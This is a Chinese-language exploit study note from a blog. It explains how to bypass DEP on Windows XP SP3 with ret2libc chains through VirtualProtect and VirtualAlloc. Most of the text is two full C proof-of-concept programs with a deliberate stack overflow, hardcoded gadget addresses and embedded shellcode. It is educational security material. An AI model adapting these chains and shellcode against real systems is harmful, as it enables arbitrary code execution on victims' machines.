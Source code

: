 ```yaml
---
title: 漏洞学习笔记-015-利用VirtualProtect和VirtualAlloc攻击DEP
description: Ret2Libc之利用VirtualProtect和VirtualAlloc攻击DEP攻击DEP
slug: exploit-015
date: 2020-11-19 17:43:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


本文来源：[Moeomu的博客](/p/exploit-015/)

## 利用VirtualProtect攻击DEP

### 原理

> 利用`VirtualProtect`函数将栈页内存属性改为可执行

### 前置内容

- VirtualProtect参数

```cpp
BOOL VirtualProtect(
    LPVOID lpAddress,
    DWORD dwSize,
    DWORD flNewProtect,
    PDWORD lpflOldProtect
);

// 所以可以这样写
BOOL VirtualProtect(
    shellcode 所在内存空间起始地址,
    shellcode 大小,
    0x40,
    某个可写地址
);
```

- 这里势必存在0，因此攻击函数换为memcpy

### 步骤

- 修复EBP，这样调用函数的时候不会内存读取违规而异常
- 填入VirtualProtect的地址，将会返回于此
- 填入空的指令
- 填入返回地址
- 填入函数的参数
- 填入shellcode本身

### 代码

> 模拟环境：系统：Windows XP SP3，DEP：Optout，编译器：VC6，编译选项：禁用优化，版本：release

```cpp
#include<windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x85\x8B\x1D\x5D" // push esp pop ebp ret `fix ebp`
"\xD4\x1A\x80\x7C" // VirtualProtect Address
"\x90\x90\x90\x90"
"\x8C\xFE\x12\x00" // ret Address
"\xB0\xFD\x12\x00" // Param Address: 0x0012FDB0
"\xFF\x00\x00\x00" // Param Size: 0x100
"\x40\x00\x00\x00" // Param NewProtect: 0x40
"\x00\x00\x3F\x00" // Param pOldProtect: 0x00910000
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" // payload
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
;

void test()
{
    char str[176];
    memcpy(str, shellcode, 420);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();
    return 0;
}
```

## 利用VirtualAlloc攻击DEP

### 前置内容

- VirtualAlloc参数

```cpp
LPVOID WINAPI VirtualAlloc(
    __in_opt LPVOID lpAddress,
    __in SIZE_T dwSize,
    __in DWORD flAllocationType,
    __in DWORD flProtect
)
```

- 参数说明
  - `lpAddress`，申请内存区域的地址，如果这个参数是`NULL`，系统将会决定分配内存区域的位置，并且按`64KB`向上取整
  - `dwSize`，申请内存区域的大小
  - `flAllocationType`，申请内存的类型
  - `flProtect`，申请内存的访问控制类型，如读、写、执行等权限。内存申请成功时函数返回申请内存的起始地址，申请失败时返回`NULL`

### 代码

> 模拟环境：系统：Windows XP SP3，DEP：Optout，编译器：VC6，编译选项：禁用优化，版本：release

```cpp
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x85\x8B\x1D\x5D" // push esp pop ebp ret 4
"\xE1\x9A\x80\x7C" // Address of VirtualAlloc
"\x90\x90\x90\x90"
"\x70\x6F\xC1\x77" // VirtualAlloc ret address
"\x00\x00\x03\x00" // Param: lpAddress
"\xFF\x00\x00\x00" // Param: dwSize
"\x00\x10\x00\x00" // Param: flAllocationType
"\x40\x00\x00\x00" // Param: flProtect
"\x00\x00\x03\x00" // memcpy ret address
"\x00\x00\x03\x00" // Param: destin
"\x94\xFE\x13\x00" // Param: source
"\xFF\x00\x00\x00" // Param: n
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" // payload
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
;

void test()
{
    char tt[176];
    memcpy(tt, shellcode, 450);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();
    return 0;
}
```

### 技术细节

- 首先使用VirtualAlloc申请一段空间用于执行shellcode
- 随后使用memcpy将shellcode复制过去
- 最后在memcpy返回时直接返回到shellcode payload的起始地址
